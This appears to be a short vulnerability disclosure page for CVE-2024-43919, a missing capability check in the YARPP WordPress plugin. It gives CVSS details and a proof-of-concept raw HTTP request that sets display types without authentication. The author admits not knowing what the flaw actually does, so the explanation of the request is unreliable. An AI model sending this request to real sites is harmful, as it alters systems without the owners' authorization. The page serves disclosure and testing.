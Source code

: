 # CVE-2024-43919
YARPP &lt;= 5.30.10 - Missing Authorization

# Description

The YARPP – Yet Another Related Posts Plugin plugin for WordPress is vulnerable to unauthorized access due to a missing capability check in the ~/includes/yarpp_pro_set_display_types.php file in all versions up to, and including, 5.30.10. This makes it possible for unauthenticated attackers to set display types.

```
Type: plugin
CVSS Score: 5.3
CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N
CVE: CVE-2024-43919
Slug: yet-another-related-posts-plugin
```

Info
---

Not a clue what this actually does.

POC
---


Here's an example of a raw HTTP request that exploits the vulnerability in the YARPP plugin:

```
GET /wp-content/plugins/yet-another-related-posts-plugin/includes/yarpp_pro_set_display_types.php?ypsdt=false&types[]=post&types[]=page HTTP/1.1
Host: example.com
```

In this request:
- The `ypsdt` parameter is set to `false` to bypass the initial check in the code.
- The `types[]` parameter is used to specify the display types to set. In this example, `post` and `page` are passed as the types.
- The `Host` header specifies the target WordPress site hosting the vulnerable YARPP plugin.

When this request is sent to a WordPress site with a vulnerable version of the YARPP plugin installed, it will set the display types without requiring any authentication or authorization.

